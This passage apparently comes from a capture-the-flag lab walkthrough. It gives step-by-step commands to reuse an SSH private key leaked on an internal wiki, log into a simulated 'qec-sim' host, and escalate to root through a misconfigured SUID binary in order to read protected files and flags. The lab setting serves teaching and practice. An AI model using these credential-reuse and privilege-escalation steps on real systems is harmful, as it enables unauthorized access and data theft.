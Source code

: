 1.  **Triggering the Firewall:** Submitting `FLAG{SVC_DEPLOY_SSH_KEY_FOUND}` instructed the Director container to modify the network, allowing your jump box (`ssh-jump`) to reach the HSZ network (`10.0.50.0/24`).

2.  **Confirmation (Back on Jump Box):**
    *   Check the messages directory: `cat ~/messages/zf_msg_03.txt`
    *   You should see a message from ZF confirming the firewall pinhole is open to `qec-sim` (`10.0.50.50`).

3.  **Prepare the SSH Key:**
    *   Go back to the wiki deployment page output (`curl http://10.0.10.150/data/pages/deployment_procedures.txt`).
    *   **Carefully copy** the entire SSH private key block, including the `-----BEGIN RSA PRIVATE KEY-----` and `-----END RSA PRIVATE KEY-----` lines.
    *   On the jump box, save this key to a file:
        *   `nano svc_deploy.key` (or use `vim`)
        *   Paste the key into the editor.
        *   Save and exit (Ctrl+X, then Y, then Enter in `nano`).
    *   **Set Correct Permissions:** SSH keys require strict permissions.
        *   `chmod 600 svc_deploy.key`

4.  **Connect to QEC Sim:**
    *   Use the key, user `svc_deploy`, and the IP `10.0.50.50`.
    *   `ssh -i svc_deploy.key svc_deploy@10.0.50.50`
    *   You should now be logged into the `qec-sim` machine as the `svc_deploy` user!

---

**Phase 7: Privilege Escalation and Final Payload (QEC Sim)**

*   **Perform these steps from your SSH session on the `qec-sim` box.**

1.  **Explore as `svc_deploy`:**
    *   Type `id`. You are a normal user.
    *   Look for unusual programs, especially ones with special permissions. Check common binary locations.
    *   `ls -l /usr/local/bin`
    *   **SUID Binary Found:** Notice `/usr/local/bin/qec_control`. Check permissions: `ls -l /usr/local/bin/qec_control`. The `s` in `-rwsr-xr-x` means it runs with the owner's permissions (which is `root`). This is a potential privilege escalation vector!

2.  **Analyze the SUID Binary:**
    *   Run it: `/usr/local/bin/qec_control` (Shows usage).
    *   Try running `id` through it: `/usr/local/bin/qec_control id`. The output shows `euid=0(root)`. Success! You can run commands as root via this program.

3.  **Read Root Files:** Now that you can execute commands as root, read the warning note Ghost mentioned.
    *   `/usr/local/bin/qec_control "cat /root/ghost_warning.txt"` (Use quotes if the command has spaces or special characters).
    *   **Warning and Flag:** The note warns Ghost is compromised, gives the location of the final package (`/opt/qec/payload/final_package.enc`), reveals the decryption key (`DeltaCharlie`), and contains the flag: `FLAG{QEC_ROOT_ACCESS_GHOST_WARNING}`. Submit this flag!

4.  **Find the Payload Flag:** The setup script places another flag here.
    *   Look in the mounted flag directory (check compose file for path if unsure, likely `/flags_internal`): `/usr/local/bin/qec_control "ls /flags_internal"`
    *   `/usr/local/bin/qec_control "cat /flags_internal/flag_payload.txt"` -> **Find Flag:** `FLAG{FINAL_PAYLOAD_PACKAGE_FOUND}`. Submit it!
